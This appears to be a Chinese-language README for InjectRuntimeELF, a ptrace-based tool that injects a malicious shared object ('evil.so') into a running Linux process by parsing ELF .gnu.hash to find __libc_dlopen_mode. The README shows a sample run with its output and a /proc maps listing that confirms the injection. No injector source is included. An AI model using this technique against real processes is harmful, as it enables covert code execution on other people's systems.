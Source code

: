 ## InejctRuntimeELF

具体参考, [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### usage

```
➜  InjectRuntimeELF sudo ./inject 6380 /vagrant/evilELF/InjectRuntimeELF/example/evil.so
[*] attached to pid 6380
[*] dump runtime infomation
[*] header (ignore...)
[*] dynamic:
    dynsym: 0x80481cc
    dynstr: 0x804821c
    gnuhash: 0x80481ac
    nbuckets: 2
    nmaskwords: 1
[*] start search '__libc_dlopen_mode':
[+] search libaray path: /lib/i386-linux-gnu/libc.so.6
[*] start gnu hash search:
    new_hash: 0x80498e8(4073429154)
    n: 197
    hash buckets index: 0x3c6(966), first dynsym index: 0x8f5(2293)
[*] start bucket search:
    h2: 0xd5e07632(3588257330)
    h2: 0xf2cb98a2(4073429154)
[+] Found '__libc_dlopen_mode' at 0xb768fae0
test.1: 134513440
[+] entry point: 0x8048320
[+] stopped 6380 at eip:0xb7725428, esp:0xbfe7202c
[+] inject code done 6380 at eip:0x8048336
[*] start search 'evilfunc':
[+] search libaray path: /lib/i386-linux-gnu/libc.so.6
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 441
[+] search libaray path: /lib/ld-linux.so.2
ptrace(PTRACE_PEEKTEXT) failed
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 1
[+] search libaray path: /vagrant/evilELF/InjectRuntimeELF/example/evil.so
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 1
    hash buckets index: 0x2(2), first dynsym index: 0xb(11)
[*] start bucket search:
    h2: 0x29ce3720(701380384)
[+] Found 'evilfunc' at 0xb772053b
[*] lib injection done!
```

查看pid对应maps可以查看到已经加载了恶意的so

```
➜  InjectRuntimeELF cat /proc/6380/maps
08048000-08049000 r-xp 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
08049000-0804a000 r--p 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
0804a000-0804b000 rw-p 00001000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
09aef000-09b10000 rw-p 00000000 00:00 0          [heap]
b756b000-b756c000 rw-p 00000000 00:00 0
b756c000-b7714000 r-xp 00000000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7714000-b7715000 ---p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7715000-b7717000 r--p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7717000-b7718000 rw-p 001aa000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7718000-b771b000 rw-p 00000000 00:00 0
b7720000-b7721000 r-xp 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7721000-b7722000 r--p 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7722000-b7723000 rw-p 00001000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7723000-b7725000 rw-p 00000000 00:00 0
b7725000-b7726000 r-xp 00000000 00:00 0          [vdso]
b7726000-b7746000 r-xp 00000000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7746000-b7747000 r--p 0001f000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7747000-b7748000 rw-p 00020000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
bfe52000-bfe73000 rw-p 00000000 00:00 0          [stack]
```

#### 参考链接:

[PWN之ELF解析](https://github.com/jmpews/dev2pwn/blob/master/PWN%E4%B9%8BELF%E8%A7%A3%E6%9E%90.md)

[linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

#### 利用点

TODO

